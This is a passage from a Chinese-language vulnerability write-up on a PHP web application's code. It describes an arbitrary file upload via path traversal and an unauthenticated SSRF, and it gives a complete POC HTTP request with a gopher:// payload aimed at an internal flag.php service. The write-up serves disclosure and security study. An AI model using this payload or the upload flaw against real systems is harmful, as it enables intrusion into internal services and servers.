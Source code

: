 `$data['filename']`不是通过封装类获取，且只进行了后缀校验，没有过滤路径穿越的问题，导致我们可以任意上传任意文件到任意目录下。

![document_image_rId71.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-2e1b9bfe8a1e38908df227d53077ddba78c405f6.png)

向上寻找到调用方法`videoUpload`，位于`adminapi/controller/v1/file/SystemAttachment.php`第136行。这里写明`$data`是从POST请求体内容获取的，这里没有进行数据类型校验。

![document_image_rId72.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-f00cae0aa2c694fc8108f9e1065f441e5f89cc60.png)

从`adminapi/route/file.php`可以找到对应路由：

![document_image_rId73.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-b9150fd58887d084ede253b202b2af054d54a9ad.png)

【中危】前台SSRF（获取图片base64功能）
------------------------

### 漏洞详情

在实现远程获取图片base64功能上，不安全的使用了`curl_exec`函数。没有对传入的URL进行严格过滤，`curl_exec`允许多种协议请求，容易忽略解析`?`、`#`从而绕过安全校验。

### 漏洞复现

使用gopher协议发送请求：

![document_image_rId74.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-a3ddea7895894cd303c85b8868c6cd88a3df5b07.png)

需要替换 code 为payload，如果没有接收到请求，将 payload 替换到 image 变量也是可以的。  
POC请求包：

```php
POST /api/image_base64 HTTP/1.1
Host: localhost:45600
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 258

{"image":"?.jpg","code":"gopher://127.0.0.1:18000/_POST%20%2Fflag.php%20HTTP%2F1.1%0A%0DHost%3A%20127.0.0.1%3A18000%0A%0DContent-Type%3A%20application%2Fx-www-form-urlencoded%0A%0DContent-Length%3A%2036%0A%0D%0A%0Dkey%3D00f001523d0b955749ea5e3b0ca09b5f.jpg"}
```

### 漏洞审计

